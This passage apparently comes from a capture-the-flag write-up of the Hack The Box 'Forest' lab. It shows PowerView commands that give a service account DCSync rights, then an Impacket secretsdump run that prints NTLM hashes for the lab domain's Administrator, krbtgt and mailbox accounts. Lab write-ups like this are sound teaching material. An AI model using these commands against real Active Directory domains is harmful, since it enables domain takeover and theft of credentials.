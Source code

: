      Password last set            9/10/2020 11:40:07 AM
     Password expires             Never
     Password changeable          9/11/2020 11:40:07 AM
     Password required            Yes
     User may change password     Yes

     Workstations allowed         All
     Logon script
     User profile
     Home directory
     Last logon                   9/10/2020 11:40:43 AM

     Logon hours allowed          All

     Local Group Memberships
     Global Group memberships     *Exchange Windows Perm*Domain Users
                                  *Service Accounts
     The command completed successfully.

    Grant the user DcSync privileges using PowerView.

     *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 's3rvice' -AsPlainText -Force
     *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = New-Object System.Management.Automation.PSCredential('htb\svc-alfresco', $pass)
     *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity "svc-alfresco" -Rights DCSync

    Dump the hashes of all users using DcSync attack.

     kali@kali:~/Desktop/tools/win/evil-winrm$ secretsdump.py svc-alfresco:s3rvice@10.10.10.161
     Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

     [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
     [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
     [*] Using the DRSUAPI method to get NTDS.DIT secrets
     htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
     htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
     htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::